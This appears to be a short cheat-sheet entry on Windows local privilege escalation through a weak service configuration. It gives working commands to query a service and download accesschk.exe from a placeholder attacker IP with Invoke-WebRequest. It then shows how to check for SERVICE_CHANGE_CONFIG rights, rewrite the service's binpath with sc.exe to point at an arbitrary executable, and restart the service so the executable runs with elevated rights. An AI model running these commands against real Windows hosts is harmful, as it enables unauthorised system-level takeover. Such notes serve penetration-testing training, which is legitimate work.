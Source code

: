 First, get base info of the service:
```
sc.exe qc SERVICE
```

If the service is running at high authority, check the user's priveleges:
```
Invoke-WebRequest http://IP/accesschk.exe -o accesschk.exe
./accesschk.exe /accepteula -ucvwq USERNAME SERVICE 
```

If you have `SERVICE_CHANGE_CONFIG`, change the binary path as following:
```
sc.exe config SERVICE binpath=\`"C:\PATH\`" // Only works in Powershell
sc config daclsvc binpath= "\"C:\PATH\""    // Only works in CMD
```

Restart the service:
```
net stop SERVICE
net start SERVICE
```
Note: if `net start`/`net stop` cannot be called, reboot the system.